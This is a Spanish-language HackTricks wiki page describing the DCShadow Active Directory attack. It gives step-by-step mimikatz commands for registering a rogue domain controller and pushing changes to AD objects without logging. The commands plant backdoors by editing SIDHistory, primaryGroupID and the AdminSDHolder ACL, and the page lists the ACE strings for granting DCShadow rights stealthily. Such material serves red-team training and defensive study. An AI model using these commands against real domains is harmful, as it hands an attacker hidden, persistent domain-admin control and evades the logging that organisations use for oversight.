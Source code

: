 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# DCShadow

Registra un **nuevo Controlador de Dominio** en el AD y lo utiliza para **empujar atributos** (SIDHistory, SPNs...) en objetos especificados **sin** dejar ningún **registro** sobre las **modificaciones**. Necesitas privilegios de **DA** y estar dentro del **dominio raíz**.\
Ten en cuenta que si usas datos incorrectos, aparecerán registros bastante feos.

Para realizar el ataque necesitas 2 instancias de mimikatz. Una de ellas iniciará los servidores RPC con privilegios de SYSTEM (aquí debes indicar los cambios que deseas realizar), y la otra instancia se utilizará para empujar los valores:

{% code title="mimikatz1 (RPC servers)" %}
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
{% endcode %}

{% code title="mimikatz2 (push) - Necesita DA o similar" %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

Nota que **`elevate::token`** no funcionará en la sesión `mimikatz1` ya que eso elevó los privilegios del hilo, pero necesitamos elevar el **privilegio del proceso**.\
También puedes seleccionar un objeto "LDAP": `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

Puedes enviar los cambios desde un DA o desde un usuario con estos permisos mínimos:

* En el **objeto de dominio**:
* _DS-Install-Replica_ (Agregar/Eliminar Réplica en Dominio)
* _DS-Replication-Manage-Topology_ (Gestionar Topología de Replicación)
* _DS-Replication-Synchronize_ (Sincronización de Replicación)
* El **objeto de Sitios** (y sus hijos) en el **contenedor de Configuración**:
* _CreateChild y DeleteChild_
* El objeto de la **computadora que está registrada como un DC**:
* _WriteProperty_ (No Write)
* El **objeto objetivo**:
* _WriteProperty_ (No Write)

Puedes usar [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) para otorgar estos privilegios a un usuario sin privilegios (ten en cuenta que esto dejará algunos registros). Esto es mucho más restrictivo que tener privilegios de DA.\
Por ejemplo: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose`  Esto significa que el nombre de usuario _**student1**_ al iniciar sesión en la máquina _**mcorp-student1**_ tiene permisos de DCShadow sobre el objeto _**root1user**_.

## Usando DCShadow para crear puertas traseras

{% code title="Establecer Administradores de Empresa en SIDHistory a un usuario" %}
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```
{% endcode %}

{% code title="Cambiar PrimaryGroupID (poner al usuario como miembro de Administradores de Dominio)" %}
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
{% endcode %}

{% code title="Modificar ntSecurityDescriptor de AdminSDHolder (dar Control Total a un usuario)" %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
{% endcode %}

## Shadowception - Dar permisos a DCShadow usando DCShadow (sin registros de permisos modificados)

Necesitamos agregar los siguientes ACEs con el SID de nuestro usuario al final:

* En el objeto de dominio:
* `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
* `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* En el objeto de computadora del atacante: `(A;;WP;;;UserSID)`
* En el objeto de usuario objetivo: `(A;;WP;;;UserSID)`
* En el objeto de Sitios en el contenedor de Configuración: `(A;CI;CCDC;;;UserSID)`

Para obtener el ACE actual de un objeto: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl`

Ten en cuenta que en este caso necesitas hacer **varios cambios,** no solo uno. Así que, en la **sesión mimikatz1** (servidor RPC) usa el parámetro **`/stack` con cada cambio** que quieras hacer. De esta manera, solo necesitarás **`/push`** una vez para realizar todos los cambios acumulados en el servidor rogue.

[**Más información sobre DCShadow en ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
